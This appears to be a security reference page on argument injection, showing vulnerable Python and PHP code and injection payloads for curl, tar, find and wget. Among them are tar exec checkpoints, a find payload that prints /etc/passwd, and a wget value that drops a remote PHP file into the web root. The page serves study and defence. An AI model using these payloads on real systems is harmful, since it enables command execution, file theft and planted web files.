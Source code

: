 # Argument Injection
Argument injection is similar to command injection as tainted data is passed to to a command executed in a shell without proper sanitization/escaping.

It can happen in different situations, where you can only inject arguments to a command:

- Improper sanitization (regex)
- Injection of arguments into a fixed command (PHP:escapeshellcmd, Python: Popen)
- Bash expansion (ex: *)

In the following example, a python script takes the inputs from the command line to generate a ```curl``` command:
```py
from shlex import quote,split
import sys
import subprocess

if __name__=="__main__":
    command = ['curl']
    command = command + split(sys.argv[1])
    print(command)
    r = subprocess.Popen(command)
```
It is possible for an attacker to pass several words to abuse options from ```curl``` command
```ps1
python python_rce.py "https://www.google.fr -o test.py" 
```
We can see by printing the command that all the parameters are split allowing to inject an argument that will save the response in an arbitrary file.
```ps1
['curl', 'https://www.google.fr', '-o', 'test.py']
```
## Summary

* [List of exposed commands](#list-of-exposed-commands)
  * [CURL](#CURL)
  * [TAR](#TAR)
  * [FIND](#FIND)
  * [WGET](#WGET)
* [References](#references)


## List of exposed commands

### CURL
It is possible to abuse ```curl``` through the following options:

```ps1
 -o, --output <file>        Write to file instead of stdout
 -O, --remote-name          Write output to a file named as the remote file
```
In case there is already one option in the command it is possible to inject several URLs to download and several output options. Each option will affect each URL in sequence.

### TAR
For the ```tar``` command it is possible to inject arbitrary arguments in different commands. 

Argument injection can happen into the '''extract''' command:
```ps1
--to-command <command>
--checkpoint=1 --checkpoint-action=exec=<command>
-T <file> or --files-from <file>
```

Or in the '''create''' command:
```ps1
-I=<program> or -I <program>
--use-compres-program=<program>
```
There are also short options to work without spaces:
```ps1
-T<file>
-I"/path/to/exec"
```

### FIND
Find some_file inside /tmp directory.
```php
$file = "some_file";
system("find /tmp -iname ".escapeshellcmd($file));
```

Print /etc/passwd content.
```php
$file = "sth -or -exec cat /etc/passwd ; -quit";
system("find /tmp -iname ".escapeshellcmd($file));
```

### WGET
Example of vulnerable code
```php
system(escapeshellcmd('wget '.$url));
```
Arbitrary file write
```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
```


## References

- [staaldraad - Etienne Stalmans, November 24, 2019](https://staaldraad.github.io/post/2019-11-24-argument-injection/)
- [Back To The Future: Unix Wildcards Gone Wild - Leon Juranic, 06/25/2014](https://www.exploit-db.com/papers/33930)
- [TL;DR: How exploit/bypass/use PHP escapeshellarg/escapeshellcmd functions - kacperszurek,  Apr 25, 2018](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)
